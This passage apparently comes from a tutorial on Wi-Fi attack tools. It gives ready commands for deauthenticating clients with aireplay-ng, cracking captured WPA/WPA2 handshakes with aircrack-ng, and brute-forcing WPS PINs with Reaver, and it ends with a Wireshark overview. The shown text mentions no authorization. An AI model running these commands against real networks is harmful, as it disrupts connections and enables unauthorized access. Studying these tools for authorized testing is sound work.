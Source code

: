 3. **Deauthentication Attack**:

   ```bash
   sudo aireplay-ng --deauth 10 -a <BSSID> wlan0mon
   ```

   - This command sends deauthentication packets to disconnect clients from a network, forcing them to reconnect and allowing you to capture the WPA/WPA2 handshake.

4. **Cracking WPA/WPA2 Keys**:

   ```bash
   sudo aircrack-ng -w /path/to/wordlist.txt -b <BSSID> capture-01.cap
   ```

   - After capturing the handshake, use `aircrack-ng` with a wordlist to crack the WPA/WPA2 key.

### 2. **Reaver**

**Overview**:
Reaver is a tool specifically designed to exploit WPS (Wi-Fi Protected Setup) vulnerabilities. It performs brute-force attacks to recover the WPS PIN, which can then be used to retrieve the WPA/WPA2 passphrase.

**Key Features**:
- Brute-force attacks on WPS-enabled networks.
- Recovers WPA/WPA2 passphrases once the WPS PIN is cracked.
- Effective against routers with vulnerable WPS implementations.

**Getting Started with Reaver**:

1. **Scanning for WPS-Enabled Networks**:

   ```bash
   sudo wash -i wlan0mon
   ```

   - Use `wash` to scan for networks with WPS enabled.

2. **Launching a Reaver Attack**:

   ```bash
   sudo reaver -i wlan0mon -b <BSSID> -vv
   ```

   - Reaver will start brute-forcing the WPS PIN of the target network. If successful, it will reveal the WPA/WPA2 passphrase.

3. **Optimizing Reaver**:
   - Adjust the delay and retry settings for faster or more reliable attacks:

   ```bash
   sudo reaver -i wlan0mon -b <BSSID> -d 0 -vv
   ```

   - The `-d 0` option sets the delay between attempts to zero, speeding up the attack.

### 3. **Wireshark**

**Overview**:
Wireshark is a powerful network protocol analyzer that can capture and interactively browse the traffic running on a computer network. While not specifically a wireless attack tool, Wireshark is invaluable for analyzing captured wireless traffic, including decrypted packets after a successful attack.

